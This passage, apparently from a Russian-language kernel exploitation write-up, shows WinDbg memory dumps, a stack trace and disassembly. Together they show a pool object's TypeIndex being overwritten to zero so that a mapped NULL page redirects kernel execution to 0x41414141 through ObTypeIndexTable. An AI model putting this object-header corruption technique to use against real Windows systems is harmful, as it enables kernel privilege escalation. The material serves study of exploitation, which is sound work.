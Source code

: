 Видим, что 0xC поменялся на 0x0

```js
kd> db 8756dd40-8
ReadVirtual: 8756dd38 not properly sign extended
8756dd38  42 42 42 42 42 42 42 42-40 00 08 04 45 76 65 ee  BBBBBBBB@...Eve.
8756dd48  00 00 00 00 40 00 00 00-00 00 00 00 00 00 00 00  ....@...........
8756dd58  01 00 00 00 01 00 00 00-00 00 00 00 ->00<- 00 08 00  ................
8756dd68  40 b2 eb 86 00 00 00 00-01 00 04 00 00 00 00 00  @...............
8756dd78  78 dd 56 87 78 dd 56 87-08 00 08 04 45 76 65 ee  x.V.x.V.....Eve.
8756dd88  00 00 00 00 40 00 00 00-00 00 00 00 00 00 00 00  ....@...........
8756dd98  01 00 00 00 01 00 00 00-00 00 00 00 0c 00 08 00  ................
8756dda8  40 b2 eb 86 00 00 00 00-01 00 04 00 00 00 00 00  @...............
```


```js
kd> dd 0x00000000
00000000  41414141 41414141 41414141 41414141
00000010  41414141 41414141 41414141 41414141
```

## [](#header-2)Шеллкод

```js
kd> k
 # ChildEBP RetAddr      
WARNING: Frame IP not in any known module. Following frames may be wrong.
00 a9f93ae8 82886565     0x41414141
01 a9f93b38 828b54a7     nt!ObpCloseHandleTableEntry+0x6d
02 a9f93b68 8289d617     nt!ExSweepHandleTable+0x5f
03 a9f93b88 828aa467     nt!ObKillProcess+0x54
04 a9f93bfc 8289d0fa     nt!PspExitThread+0x5e4
05 a9f93c24 82679e06     nt!NtTerminateProcess+0x12e
    <Intermediate frames may have been skipped due to lack of complete unwind>
06 a9f93c24 77ab6c74 (T) nt!KiSystemServicePostCall
    <Intermediate frames may have been skipped due to lack of complete unwind>
07 0030f9b0 7754be67 (T) 0x77ab6c74
08 0030f9c4 6e33603d     0x7754be67
09 0030fa18 6e3361b1     0x6e33603d
0a 0030fa24 00021a10     0x6e3361b1
0b 0030fa40 00021a57     0x21a10
0c 0030fa4c 00023007     0x21a57
0d 0030fa94 7753ef8c     0x23007
0e 0030faa0 77ad367a     0x7753ef8c
0f 0030fae0 77ad364d     0x77ad367a
10 0030faf8 00000000     0x77ad364d

8288650d 0fb64e0c        movzx   ecx,byte ptr [esi+0Ch]
82886511 8b1c8de02e7882  mov     ebx,dword ptr nt!ObTypeIndexTable (82782ee0)[ecx*4]
82886518 57              push    edi
82886519 648b3d24010000  mov     edi,dword ptr fs:[124h]
82886520 837b7400        cmp     dword ptr [ebx+74h],0
82886524 8d4e18          lea     ecx,[esi+18h]
82886527 894c2414        mov     dword ptr [esp+14h],ecx
8288652b c644241300      mov     byte ptr [esp+13h],0
82886530 0f8497000000    je      nt!ObpCloseHandleTableEntry+0xd5 (828865cd)
82886536 648b0d24010000  mov     ecx,dword ptr fs:[124h]
8288653d 8b4510          mov     eax,dword ptr [ebp+10h]
82886540 394150          cmp     dword ptr [ecx+50h],eax
82886543 7410            je      nt!ObpCloseHandleTableEntry+0x5d (82886555)
82886545 8d4c2420        lea     ecx,[esp+20h]
82886549 51              push    ecx
8288654a 50              push    eax
8288654b e8c71ce5ff      call    nt!KeStackAttachProcess (826d8217)
82886550 c644241301      mov     byte ptr [esp+13h],1
```